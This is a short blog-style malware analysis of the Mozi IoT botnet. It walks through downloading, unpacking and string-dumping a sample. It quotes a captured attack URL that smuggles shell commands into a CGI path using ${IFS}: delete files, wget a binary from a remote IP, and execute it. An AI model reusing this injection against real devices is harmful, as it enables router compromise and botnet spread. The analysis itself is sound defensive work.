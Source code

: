 ```yaml
---
title: Mozi Malware Analysis
date: 2021-03-14 10:02:03 +0530
categories: [Malware analysis]
tags: [malwareanalysis]     # TAG names should always be lowercase
comments: false
---
```


The Mozi botnet, a peer-2-peer (P2P) malware known previously for taking over Netgear, D-Link and Huawei routers, has swollen in size to account for 90 percent of observed traffic flowing to and from all internet of things (IoT) devices, according to researchers.

Once it cracks a device, the Mozi botnet attempts to bind local UDP port 14737, and it finds and kills processes that use ports 1536 and 5888. Its code contains hardcoded distributed hash table (DHT) public nodes, which are then used to join the botnet’s P2P network. DHT is a distributed system that provides a lookup service allowing P2P nodes to find and communicate with each other.

We found some malicious  URL endpoints recently. So lets analyze them ...

Endpoint : 
url="/cgi-bin/;cd${IFS}/var/tmp;rm${IFS}-rf${IFS}*;${IFS}wget${IFS}http://125.43.125.98:55103/Mozi.m;${IFS}sh${IFS}/var/tmp/Mozi.m"


ANALYZING :
Cool so the URL is trying to download something
Lets check the IP then :

![Desktop View](../assets/img/mozianalysis/reputationanalysis.png){: .normal}

The IP is clean so lets see what it was downloading.
Time for Kali!

![Desktop View](../assets/img/mozianalysis/kalifiledownload.png){: .normal}

Okay so the file is still hosted and it is an ELF file !! cool cool
Lets upload this file to virustotal and see

![Desktop View](../assets/img/mozianalysis/fileanalysis.png){: .normal}

Damn fun lets dig then
So I ran strings on the file and I got this

![Desktop View](../assets/img/mozianalysis/stringsdefault.png){: .normal}

UPX ?
Google it ….
 It is a packer …. Lets download and unpack then ….

![Desktop View](../assets/img/mozianalysis/unpackererror.png){: .normal}

Hmm corrupted!
Similar resource : Corrupted UPX Packed ELF Repair – Threat Analysis (vcodispot.com)
Changed some HEX values using hexedit [read the resource]

![Desktop View](../assets/img/mozianalysis/malwaresuccess.png){: .normal}

Voila! Unpacked

Lets do strings again!

![Desktop View](../assets/img/mozianalysis/telnetsessions.png){: .normal}

It is doing some telnet stuff

![Desktop View](../assets/img/mozianalysis/iptables.png){: .normal}

Some IP table stuff

![Desktop View](../assets/img/mozianalysis/webstuff.png){: .normal}

Also some web stuff
COOL COOL COOL!!!

Okay so for additional information you can just visit this link : 
<a href="https://www.joesandbox.com/analysis/222545/0/html">Automated Malware Analysis Report for Mozi.m - Generated by Joe Sandbox</a>
<a href="https://securityintelligence.com/posts/botnet-attack-mozi-mozied-into-town/">A New Botnet Attack Just Mozied Into Town (securityintelligence.com)</a>